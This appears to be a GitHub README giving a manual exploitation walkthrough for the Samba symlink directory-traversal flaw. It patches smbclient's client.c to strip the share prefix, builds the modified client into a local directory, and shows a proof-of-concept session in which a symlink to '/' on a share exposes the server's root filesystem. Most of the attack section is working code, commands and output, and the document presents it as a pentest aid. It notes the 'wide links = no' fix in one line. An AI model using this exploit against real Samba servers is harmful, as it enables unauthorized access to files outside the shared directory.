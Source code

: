 # Symlink-Directory-Traversal-smb-manually


SAMBA Symlink Directory Traversal Manual Exploitation

### Introduction 

Samba is prone to a directory-traversal vulnerability because the application fails to sufficiently sanitize user-supplied input, Exploits would allow an attacker to access files outside of the Samba user's 	root directory to obtain sensitive information and perform other attacks.
Administrators should be careful and set 'wide links = no' in the '[global]' section of 'smb.conf.
 
A proof of concept of Symlink Directory Traversal on Samba, here i will explain how to install the smbclient on an external location to use for the exploitation and also what to change.

The original Manually exploitation explained in the link ( https://www.exploit-db.com/exploits/33599) doesn't work without adding an other code line in the client.c

### First step

We have to download a samba source code from the forge, i used the version 3.4.5, here you can find the download link ( https://download.samba.org/pub/samba/stable/)

```
$ tar -xvzf samba-3.4.5.tar.gz
$ cd samba-3.4.5/source3/client/
```
	

### Modification of client.c

You have to modify this file like in the url  ( https://www.exploit-db.com/exploits/33599) and also adding the line like below :

*************
	targetname = talloc_asprintf(ctx,"%s",buf);   // Add this to remove the prepending //host/share 
	if (!cli_unix_symlink(targetcli, targetname, newname)) {
		d_printf("%s symlinking files (%s -> %s)\n",
			cli_errstr(targetcli), newname, targetname);
		return 1;
	}
**********************
You can show the client.c symlink section after modification in the screen below.
Save it , and you have to install the package.

### Install Package externally to use for your pentest tests

In my case i want to use this  smb client modified version just for my pentest tests, so the idea is to install it in a directory instead of a global installation.

We will use the configure file to create our Makefile with the dir installation location like :
```
$ cd samba-3.4.5/source3/
$ ./configure --prefix=/path/to/destination/directory/installation
$ make && make install
$ cd /path/to/destination/directory/installation/bin
```

We have to specify the library location in our bash env like :

```
$ export LD_LIBRARY_PATH="/path/to/destination/directory/installation/lib:$LD_LIBRARY_PATH"
```
And finnaly run smbclent :

```
$ ./smbclient //192.169.1.12/Share_Name -N

```
### Proof of concept

```
$ ./smbclient //192.169.1.12/Share_Name -N

smb: \> posix
Server supports CIFS extensions 1.0
Server supports CIFS capabilities acls pathnames
smb: \> ls
  .                                   D        0  Sun Jan 13 15:13:58 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
		61335 blocks of size 131072. 50251 blocks available

smb: /> symlink / rootfs
smb: /> ls
  .                                   D        0  Sun Jan 13 15:54:10 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
  rootfs                              D        0  Wed Aug 26 11:54:18 2009

		61335 blocks of size 131072. 50251 blocks available
smb: /> cd rootfs/
smb: /rootfs/> ls
  .                                   D        0  Wed Aug 26 11:54:18 2009
  ..                                  D        0  Wed Aug 26 11:54:18 2009
  cdrom                               D        0  Thu Sep  6 01:43:19 2007
  var                                 D        0  Thu Sep  6 01:45:53 2007
  selinux                             D        0  Wed Mar  7 23:56:09 2007
  home

```

